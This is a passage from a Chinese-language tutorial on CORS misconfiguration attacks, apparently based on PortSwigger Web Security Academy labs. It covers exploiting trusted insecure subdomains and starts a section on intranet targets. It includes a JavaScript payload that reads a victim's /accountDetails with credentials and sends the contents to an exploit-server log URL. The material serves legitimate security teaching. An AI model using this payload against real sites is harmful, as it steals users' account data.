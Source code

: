 在这种情况下，能够拦截受害者用户流量的攻击者可以利用 CORS 配置来破坏受害者与应用程序的交互。此攻击涉及以下步骤：

* 受害用户发出任何普通的 HTTP 请求
*   攻击者注入重定向到：

    ```xml
    http://trusted-subdomain.vulnerable-website.com
    ```
* 受害者的浏览器遵循重定向
*   攻击者拦截纯 HTTP 请求，并返回包含 CORS 请求的欺骗响应：

    ```xml
    https://vulnerable-website.com
    ```
*   受害者的浏览器发出 CORS 请求，包括来源：

    ```xml
    http://trusted-subdomain.vulnerable-website.com
    ```
* 应用程序允许该请求，因为这是一个列入白名单的来源。请求的敏感数据在响应中返回。
* 攻击者的欺骗页面可以读取敏感数据并将其传输到攻击者控制下的任何域。

即使易受攻击的网站在使用 HTTPS 方面非常稳健，没有 HTTP 端点并且所有 cookie 都标记为安全，这种攻击也是有效的。

```javascript
<script>
    document.location="http://stock.0aaa0010034661cec04d18560023006f.web-security-academy.net/?productId=4
    <script>
    var req = new XMLHttpRequest(); 
    req.onload = reqListener; 
    req.open('get','https://0aaa0010034661cec04d18560023006f.web-security-academy.net/accountDetails',true); 
    req.withCredentials = true;
    req.send();
    function reqListener() {location='https://exploit-0a94007903df6156c086170201530080.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>
    &storeId=1"
</script>
```

### 6. 没有凭据的内部网络和 CORS

大多数 CORS 攻击依赖于响应标头的存在：

```xml
Access-Control-Allow-Credentials: true
```

如果没有该标头，受害用户的浏览器将拒绝发送他们的 cookie，这意味着攻击者将只能访问未经身份验证的内容，他们可以通过直接浏览目标网站轻松访问这些内容.

但是，有一种常见情况是攻击者无法直接访问网站：当它是组织内部网的一部分并且位于私有 IP 地址空间内时。 内部网站的安全标准通常低于外部网站，使攻击者能够找到漏洞并获得进一步的访问权限。 例如，私有网络内的跨域请求可能如下所示：

```http
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```
